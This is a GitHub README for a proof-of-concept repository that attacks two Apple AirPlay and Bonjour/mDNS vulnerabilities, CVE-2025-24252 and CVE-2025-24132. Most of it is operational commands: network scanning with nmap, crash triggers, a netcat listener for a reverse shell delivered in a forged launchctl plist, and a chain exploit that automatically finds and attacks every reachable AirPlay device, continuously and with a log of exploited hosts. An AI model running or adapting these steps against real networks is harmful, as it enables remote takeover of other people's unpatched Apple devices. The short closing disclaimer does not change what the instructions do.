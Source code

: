 # AIRBORNE – 2-PoCs-1-Repository

PoCs for **CVE-2025-24252** and **CVE-2025-24132**  

Discovered and detailed by Oligo Security

https://www.oligo.security/blog/airborne

Both bugs live in Apple’s parsing of network data—specifically in Bonjour/mDNS and AirPlay’s TCP pairing flow.

---

## CVE-2025-24252 – mDNS TXT Record Crash Trigger

This vulnerability affects `AirPlayReceiver` and is triggered via malformed mDNS TXT records.

### Setup on Kali Linux

```bash
sudo apt update
sudo apt install python3-scapy avahi-daemon -y
sudo systemctl start avahi-daemon
```
Wi-Fi Adapter Requirement

To run crashtest_CVE-2025-24252.py and chain_exploit.py, you must use a Wi-Fi adapter that supports monitor mode.

### Before running the scanner or chain exploit, make sure to

```bash
sudo ip link set wlan0 down
sudo iwconfig wlan0 mode monitor
sudo ip link set wlan0 up
```

Replace wlan0 with the name of your adapter

You must be on the same Wi-Fi network as the target Apple devices

Monitor mode is required to properly receive multicast mDNS traffic over port 5353

### Clone the Repo

```bash
git clone https://github.com/ekomsSavior/AirBorne-PoC.git
cd AirBorne-PoC
```

### Configure the PoC

```bash
nano crashtest_CVE-2025-24252.py
```

Set your attacker IP and interface. Then save and exit (`CTRL+X`, then `Y`, then `ENTER`).

### Run the PoC

```bash
python3 crashtest_CVE-2025-24252.py
```

### Monitor Target Behavior

Use `tcpdump` or Wireshark to capture traffic on the Apple device’s IP.

> Only test this on your own Apple devices in a safe lab setting.

---

## CVE-2025-24132 – AirPlay Pairing Heap Overflow

This bug is in the `AirPlayScreen` component and can trigger a heap overflow by sending malformed pairing/init packets over TCP port 7000.

---

### Scan for Vulnerable AirPlay Hosts

```bash
nmap -p 7000 --open --script=banner <your-local-subnet>/24
```

---

### Crash PoC: TCP Malformed Packet

A low-level socket-based fuzzing PoC that can be expanded into an RCE trigger.

Edit the script

```bash
nano PoC_CVE-2025-24132.py
```

Set your target IP. Then run

```bash
python3 PoC_CVE-2025-24132.py
```

Watch for
- System reboots
- Pairing process freezes
- AirPlay UI or app crashes

If observed, a heap overflow condition is likely confirmed.

---

## From Crash to Code Execution – CVE-2025-24132 RCE Simulation

### Overview

Trigger CVE-2025-24132 to simulate executing a reverse shell or `launchctl` job on a vulnerable or jailbroken Apple device.

Steps
- Overflow heap cleanly
- Inject shell command or plist-based job
- Trigger reverse shell or persistent execution

### What We Know

- AirPlay runs on TCP port `7000`
- `pairing-init` POST requests are vulnerable when oversized
- The protocol may accept binary plist payloads or plain XML

---

### Run the RCE Simulation Script

```bash
nano CVE-2025-24132_RCE.py
```

Set your
- `target_ip` (your Apple device)
- `attacker_ip` (your Kali machine)

Start your listener

```bash
nc -lvnp 4444
```

Then launch the PoC

```bash
python3 CVE-2025-24132_RCE.py
```

This sends a forged `launchctl` payload with a reverse shell string. Works only if the device is jailbroken or unpatched.

---
---

## **Combined Exploit Chain – Discovery to Exploitation**

`chain_exploit.py` links both CVEs into one seamless attack path:  
- Scans for AirPlay targets using mDNS (CVE-2025-24252 scan logic)
- Automatically launches the TCP pairing RCE payload (CVE-2025-24132)

This simulates how a real-world attacker could automate device discovery and exploit delivery in a local Wi-Fi environment.

### Features

- Automatic mDNS discovery of vulnerable Apple AirPlay devices
- Launches forged `pairing-init` payloads to port 7000
- Embedded reverse shell string inside a `launchctl` XML plist
- Live scanning mode (`--live`) for continuous background operation
- All successful targets are logged to `exploited_hosts.log`
- ASCII banner because we don’t miss 😤

### Run the Chain Exploit

```bash
nano chain_exploit.py
```

Set your
- `iface` — your active wireless interface (e.g. wlan0)
- `attacker_ip` — your Kali machine IP
- `attacker_port` — listener port (default: 4444)

Start your listener

```bash
nc -lvnp 4444
```

Then run

```bash
sudo python3 chain_exploit.py
```

Or to run continuously and re-scan every 10 seconds:

```bash
sudo python3 chain_exploit.py --live
```

### Output

- All discovered targets are printed
- Successful payloads are sent to each IP found
- All exploited IPs are saved to `exploited_hosts.log` with timestamps

> Note: Real reverse shell execution only occurs on jailbroken or unpatched Apple devices.

---

## DISCLAIMER

This project is for **educational and research purposes only**.

USER ASSUMES FULL RESPONSIBILITY WHEN UTILIZING THIS TOOL.  
**Only test on networks and devices you own or have explicit permission to test on.**

Unauthorized use may violate laws or terms of service.  
Use responsibly and ethically.

